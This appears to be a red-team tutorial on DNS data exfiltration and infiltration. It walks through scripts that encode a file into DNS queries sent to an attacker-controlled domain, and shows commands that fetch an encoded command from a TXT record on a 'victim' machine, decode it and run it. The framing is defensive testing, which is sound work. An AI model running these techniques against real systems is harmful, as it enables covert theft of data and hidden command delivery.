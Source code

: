 # DNS Exfil/Infil/Tunneling

**Description**
This falls more under Red Team/Purple Team activities to determine if your company is vulnerable to these types of attacks. DNS is commonly allowed in most organizations and attackers abuse this fact to use it in a malicious manner
## DNS Exfil
1. To start, grab the scripts found here:  https://github.com/kleosdc/dns-exfil-infil 
2. CD into the directory then do: pip3 install -r requirements.txt

In this directory you will see a file called securecorp.txt  https://github.com/kleosdc/dns-exfil-infil/blob/main/securecorp.txt
This will be the file we want to exfil out. Next you would need to register a domain, so that the DNS can be used. For me I created one with GoogleDomains, let's say its called wingnut.com. 

First let's run this command from the script in that directory:
```
python3 packety.py
```
1. This will first ask for a name of a file, in this case it will be the securecorp.txt one. 
2. Next it will ask for a domain, here I put wingnut.com. What the script will do is Base58 encode it then Base64 encode it. This is so it can fit in the domain name portion of the DNS request we will send. 
3. It will ask you if you want to start, and you can hit enter. (If you want to monitor the traffic to see what the requests look like, you can use something like tshark. I made an empty file called secret-credit-cards.pcap, did a chmod 666 on it then ran tshark -i eth0 -w secret-credit-cards.pcap)
4. After you hit enter it will take a minute or so and show a progress. Once it has completed, you can review the traffic you caught in tshark if you used it to monitor the traffic.


A little background on what is going to happen with these scripts: The code starts off by reading from the text file. The text file's content will first be Base64 encoded and then Base58 encoded. This leaves us with a long encoded string. The string is then split into 20 character long sections where each section will have 3 'dummy' characters added to it for further obfuscation. One character will be prepended to the encoded string and two characters will be appended. For example, a section of the encoded data might look like this: '6gfghhjywsas3rg4hda3'. After the extra characters are added it will end up being 'x6gfghhjywsas3rg4hda3yu'.
Once everything is done, then we need to decode it and fortunately he has a script for that as well. Back in the terminal where you ran the packety.py script type:
```
python3 packetyGrabber.py
```
1. This will ask for a file name, you put in the pcap filename. 
2. Next it will ask you for a filename to save it as, we will call it goodies.txt
3. lastly it will ask you for the domain you used, which in our case was wingnut.com

The script will then Base58 Decode it, then Base64 Decode it. You will now have the goodies.txt file to look at and it should contain all the content that was in the securecorp.txt file. You have successfully exfiltrated the data using DNS

## Data Infiltration
We want to simulate a C2-like activity of sending an encoded command to run on a victim machine. The scenario here would be that the attacker has compromised a victim machine, and has a domain/dns that has encoded commands they want to be sent to this machine without being caught as normal C2 traffic would. 
First you want to create a domain, I would recommend using Google Domains to register a new domain. For this example, we will use wingnut.com. We are still in the directory of the github project we used in the above example as well. In this example our "malicious" command will be:

```
import os; print(os.uname()[2])
```
Log into your Google Domains and manage the DNS for wingnut.com. Make a new Custom Record of type TXT, and give it a name of badstuff. Next give it a value of 
YeeTbunLbACdXq193g6VHXRuDQ9Y1upaAzA3UkpCr8yBBE68JEXU32wxNE44
This is a Base58/Base64 encoded version of that "malicious" command. Save it then to test it bring up command prompt and type:

```
nslookup -type=txt badstuff.wingnut.com
```
You should see that long encoded value. So on the victim machine in the directory of the github we have been using, do this command:

```
nslookup -type=txt badstuff.wingnut.com | grep Ye | cut -d \" -f2 > mal.py
```
This should pull that string value and put it in a file called mal.py. Next we run the script:

```
python3 packetySimple.py 
```
1. First it asks for the filename
2. Put in mal.py and hit enter

This will do the proper decode, and now you should be able to run

```
python3 mal.py
```
and it should run that OS command





